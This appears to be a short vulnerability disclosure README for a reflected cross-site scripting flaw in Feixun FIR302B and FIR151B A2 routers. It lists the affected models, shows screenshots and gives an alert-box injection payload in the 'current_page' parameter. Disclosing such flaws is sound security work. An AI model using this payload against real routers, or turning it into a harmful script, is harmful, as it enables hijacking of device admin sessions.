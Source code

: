 # feixun-xss

## Affected models: FIR302B, FIR151B A2


### FIR302B   
![image](https://user-images.githubusercontent.com/72059221/180923899-f89ee4d9-1d67-4519-ae64-7862de8e4f12.png)   



### FIR151B A2  
![image](https://user-images.githubusercontent.com/72059221/180923638-4318f198-6953-415a-a5c2-c9674d2b4392.png) 



## Payload

```
current_page=</script><script>alert("XSS")</script>;//
```

![image](https://user-images.githubusercontent.com/72059221/180924002-2a856f5e-36c6-4a18-8470-91db505da403.png)  





![image](https://user-images.githubusercontent.com/72059221/180924075-f26ca398-50a4-4749-9a77-59b1d1c1fbce.png)

![image](https://user-images.githubusercontent.com/72059221/180924150-5c7565db-4423-4f3b-acb4-2d01178e355c.png)
